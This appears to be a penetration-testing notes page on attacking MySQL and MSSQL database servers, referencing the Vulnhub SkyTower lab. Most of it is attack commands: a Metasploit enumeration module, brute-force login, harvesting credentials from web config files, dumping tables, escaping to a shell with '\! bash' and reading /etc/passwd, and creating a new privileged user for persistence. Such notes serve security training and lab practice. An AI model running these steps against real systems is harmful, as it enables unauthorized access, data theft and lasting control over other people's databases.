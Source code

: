 # Exploit

## Brute Force
```
msf > use auxiliary/admin/mssql/mssql_enum
```
```
mysql --host=[IP] -u [root] -p
```
  - Then enter the password in the CLI prompt.

## Re-use Credentials (Vulnhub:SkyTower)
Look at the webserver configuration files and /var/www/ files to see if there is a username and password in them for the DB.

## After Initial Access Is Gained
- Note that if you are entering in SQL commands to the database and are not getting any responses (errors or expected results), then you will likely have to enter in \q after entering the command to close out the session to get the SQL database to return results.  Example is below.
```
$ mysql -u root -p
Enter password: root
USE SkyTech
show tables;



\q
Tables_in_SkyTech
login
```
### Re-enumerate
```
> show databases; 
> show schemas; 
```
  - You can then set the current working database with: > USE [database]; this needs to happen to interact with and display contents of tables within the database. 
```
> show tables; 
> show columns from [table]; 
> SELECT * FROM [table];
```

### Attempt Shell
```
> \! cat /etc/passwd 
> \! bash 
```

### Attempt Privelege Escalation

#### Current Level Access
```
>select user(); 
>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()'; 
```
#### Create New User and Grant Privleges
```
>create user test identified by 'test'; 
> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```
